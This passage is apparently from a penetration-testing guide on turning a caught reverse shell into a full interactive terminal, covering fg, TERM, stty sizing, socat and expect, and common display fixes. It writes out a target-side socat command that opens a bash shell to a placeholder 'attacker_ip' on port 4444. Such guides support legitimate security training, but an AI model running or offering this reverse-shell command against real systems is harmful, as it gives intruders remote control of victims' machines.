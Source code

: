 **`fg`**
- Returns the backgrounded shell to foreground with new settings applied

**`reset` or `export TERM=xterm-256color`**
- Tells programs what terminal type to emulate
- Enables proper colors and screen control

**`stty rows X cols Y`**
- Sets the terminal dimensions
- Prevents line wrapping issues
- Makes full-screen applications work correctly

---
## Alternative Methods

### Using `socat` (More Advanced)

If `socat` is available on both machines:

**On your machine**:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**On target**:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker_ip:4444
```

This creates a full PTY automatically without manual upgrading steps.

### Using `expect` (If Available)

```bash
expect -c 'spawn /bin/bash; interact'
```

## Common Issues and Fixes

### Shell Keeps Breaking on Ctrl+C
Make sure you ran `stty raw -echo` on your local machine.

### Weird Characters or Broken Display
Set the correct TERM variable:

```bash
export TERM=xterm-256color
```

### Lines Wrapping Incorrectly
Set the correct terminal size with `stty rows X cols Y`.

### Can't Background Processes
Ensure you have a proper PTY spawned (Step 1).